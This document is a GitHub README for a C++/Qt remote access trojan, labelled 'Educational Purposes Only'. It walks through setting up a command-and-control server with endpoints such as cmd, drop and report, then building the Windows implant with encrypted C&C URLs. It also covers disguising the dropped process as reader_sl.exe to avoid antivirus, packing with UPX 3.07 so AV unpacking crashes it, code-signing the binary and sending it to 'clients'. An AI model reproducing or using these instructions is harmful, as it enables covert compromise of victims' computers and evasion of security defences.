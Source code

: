 # RAT
Rat coded in C++ and using QT
Educational Purposes Only
USAGE OF THIS PROGRAM's code, credit must be give

SETUP GUIDE
============


Server Side Instructions:
===========================
In order to setup the control panel, you will need a linux VPS with root access.
You only need to do this once.
I recommend ubuntu as it is easier to get and install packages required to build the control panel.

1.Download the Files
2. Upload QT folder to the server

2.2. You now have to install qtcreator before compiling, under ubuntu please issue the following command as root:
apt-get install qtcreator


2.3. Now go to the p folder (cd p/) and edit your config file common.h, this file is quite stright forward as you can see:

This is where your domain goes:
#define P_HOSTNAME                                     "bitspeercachedetect.com"

These are required for SSL support:
#define P_PEM_CERT                            "bitspeercachedetect.com.cert.pem" // Your SSL certificate file
#define P_PEM_KEY                              "bitspeercachedetect.com.key.pem" // Your private SSL key file
#define P_PEM_CHAIN                                              "gd_bundle.crt" // Godaddy certificate bundles

You can get the last file from https://certs.godaddy.com/anonymous/repository.pki considering you SSL certificate is from Godaddy.
You don't need to use SSL but it is highly recommended for obvious reasons.

- Other configuration options are just for fine tuning but work perfectly fine the way they are, don't change them unless you've read the entire (yes, the entire) code !!

2.4 Compile the code using these 2 commands:
qmake
make
This will take a while as it is quite a lot of code.

2.5 Once done compiling you need to setup one last thing. cd to the htroot directory. (command: cd htroot)
- Create a folder with your domain name, for example: mkdir my.domain.com
- run the following command, replace my.domain.com with your C&C domain:
cp -R localhost/* my.domain.com/

- cd to the cgi-bin dir under your domain's folder, ie: cd my.domain.com/cgi-bin
- Now run the following commands:
touch clock
touch cmd
touch dir
touch drop
touch ip
touch list
touch noop
touch otp
touch otpgen
touch report
touch session

- go back to domain (cd ..) folder and run command mkdir static-files
- go inside folder static-files run this command:
ln -s  ../../../htbits/sessions/ gpe3c55teci1r975ihvfxkjexvzd3z4z

- Make sure no other webserver is running (like apache2 or nginx), if they are just stop them
/etc/init.d/nginx stop
/etc/init.d/apache2 stop
apache2ctl stop

- All done! Now go back to the main folder (p) and execute the webserver: ./p &
- You might want to setup a cron job that checks and runs the file if it is not running.

In order to login you must generate a One-Time-Password using the following link:
http://my.domain.com/cgi-bin/otpgen?cred={6jsi84qp-z1vi-xt14-nl6q-cdhbq3w7qrmt}
- Then take this password and use it @ login:
http://my.domain.com/cgi-bin/list

Notice that if you are not using SSL you will still be redirected to a SSL link (https://) - Just replace this with http:// and you should be good.







Client Side Setup:
===================

Requirements:
--------------
1. Visual Studio (2010 is recommended but others should work with no problems)
2. Stringprotect.exe (provided with this code)
3. UPX version 3.07 (!)


1. Extract the file p2-export.tar.bz2 to any location.

2. Go to the folder named "d" and open d.sln.
- You might be asked to convert the file depending on your version of visual studio. Do it if you are asked.

3. In visual studio, find the file named common.h and open it on your screen, this is the config file for the client side.

4. You will see 2 sets of config, 1 that doesnt use string protect and 1 that does. You only need to change the encrypted strings. Unencrypted is only for reference and debugging.

- Open the string encryption tool (stringprotect.exe) provided to you by me in the archive.
- First, we want to change the URLs of the C&C:
- In the tool write the following, be sure that my.domain.com is the actual domain you are using:
S("http://my.domain.com/")
if you want SSL support use https:
S("https://my.domain.com/")
* !! YOU MUST HAVE A REAL AND VALID SSL CERTIFICATE FOR THIS DOMAIN IF YOU WANT TO USE SSL !! *

This will results in an encrypted strings in the second box, copy that strings [without the "S(" and ")" just the \x5c... part] into the right place of common.h so it looks like this:

#define URL_HOST L"\x5c\x5b\x45\x48\x72\x6c\x7e\x76\x56\x46\x45\x4b\x71\x33\x34\x2b\x57\x4e\x52\x50\x64\x32\x34\x2d\x51\x4c\x45\x16\x62\x39\x3c\x76\x34"

- now change other encrypted strings (ALL OF THEM), for example where #define REQUEST_NOOP is located you must encrypt string like:
http://my.domain.com/cgi-bin/noop?id=
so in stringprotect.exe you write:
S("http://my.domain.com/cgi-bin/noop?id=")
and copy encrypted string to the right location at common.h so it looks like:

#define REQUEST_NOOP L"\x5c\x5b ..."

- MAIN_FILENAME is the name of the file that will be created and run, reader_sl.exe is great since it does not trigger AV and is used everywhere. This is the name of the new process after running the exe on target. If you use svchost etc it might trigger AV so be careful.


--- *ONLY IF* you are *NOT* using code signing, you must change the following in main.cpp: 
    ===========================================
  switch (trustissueres) {
  case TRUST_E_PROVIDER_UNKNOWN:
    OSVERSIONINFO vi;
    ZeroMemory(&vi, sizeof(OSVERSIONINFO));
    vi.dwOSVersionInfoSize = sizeof(vi);
    if (GetVersionEx(&vi) && vi.dwMajorVersion == 5 && vi.dwMinorVersion == 2
      && trustissueres == TRUST_E_PROVIDER_UNKNOWN) {
      return;
    }
  case TRUST_E_NOSIGNATURE:
  case TRUST_E_SUBJECT_FORM_UNKNOWN:
    exit(1);
    break;
  case 0:
    break;
  default:
    exit(1);
  }

comment all this out using /* and */.

######################################################################################
# *** Make sure to set visual studio to building in Release mode and not Debug ! *** #
######################################################################################

Now just build the project, and you will have a file named d.exe in the Release folder of the project.

IMPORTANT:
YOU MUST USE upx VERSION 3.07, or else the file will fail to decrypt itself and the strings when running!
- using upx in a cmd.exe window do this for example:
C:\upx307w> upx.exe -9 d.exe

- Now your file is ready to be digitally signed with signtool and sent to your clients :)
https://www.google.com/search?q=signtool
I recommend using like this from cmd.exe:
signtool /signwizard

Don't forget to use time-stamp url so the signature will be valid forever.


Good Luck!









Extra info:
-----------
This is a very big and complex code. Not the every-day script kiddie quality.
If you are making changes to it there are some things you should be aware of:

String encryption is quite a simple encryption code found in main.cpp.

The encryption key is part of the binary file (after compiled). It is the string of the UPX version.
"3.07(0x00)UPX"
This is why you must use upx 3.07 to pack the file.
This also insures that if AV unpacks the file from UPX to analyze - it cannot run correctly and will crash.

Wintrust is also used to ensure that the file has been signed.
If the fils is not signed (and if you didn't change the source code) - The file will not run.
This way tampering and static analysis is quite impossible. Unless you want to analyze a upx packed file :-)
Other anti-debgging techs are implanted into the code and you can find them mostly in main.cpp



upx 3.0.7
windows sdk
pscp
visual studio 2010
putty.exe

VPS Ubuntu 14.04 LTS (32bit)
